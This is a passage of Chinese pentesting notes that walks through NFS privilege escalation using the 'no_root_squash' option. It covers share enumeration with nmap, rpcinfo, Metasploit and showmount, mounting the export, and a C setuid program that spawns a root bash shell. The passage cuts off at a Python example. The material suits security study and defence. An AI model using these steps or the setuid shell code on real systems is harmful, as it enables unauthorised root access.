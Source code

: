 ### nfs提权

> 网络文件系统（**NFS**）是一个客户端 / 服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在 **NFS** 协议是几个分布式文件系统标准，网络附加存储（NAS）之一。
>
> NFS 是基于 UDP/IP 协议的应用，其实现主要是采用远程过程调用 RPC 机制，RPC 提供了一组与机器、操作系统以及低层传送协议无关的存取远程文件的操作。RPC 采用了 XDR 的支持。XDR 是一种与机器无关的数据描述编码的协议，他以独立与任意机器体系结构的格式对网上传送的数据进行编码和解码，支持在异构系统之间数据的传送。

利用先遣条件：`no_root_squash`选项得开启

1. 识别nfs共享，可以利用nmap工具或rpcinfo等工具

   ```bash
   nmap -sV -p111,2049 IP
   #nmap扫描nfs的常用端口111和2049
   rpcinfo -p 192.168.1.171
   #rpcinfo直接枚举nfs
   ```

2. - 检查nfs配置文件`/etc/exports`，检查开启的nsf共享目录和`no_root_squash`选项设置

   - 利用metasploit或showmount列举目标主机的可用nfs exports

     ```
     msf > use auxiliary/scanner/nfs/nfsmount
     msf auxiliary(nfsmount) > set rhosts IP
     msf auxiliary(nfsmount) > run
     ```

     ```
     showmount -e IP
     ```

3. 挂载nfs exports

   ```
   sudo mount -o [options] -t nfs ip_address:share directory_to_mount
   ```

4. 编写脚本，写入想执行的命令。可以是`/bin/bash`或C语言等脚本

   例子：

   - C语言脚本

     ```c
     #include<unistd.h>
     void main()
     {
             setuid(0);
             setgid(0);
             system("/bin/bash");
     }
     ```

   - python脚本

     ```python
     /usr/bin/python3
     
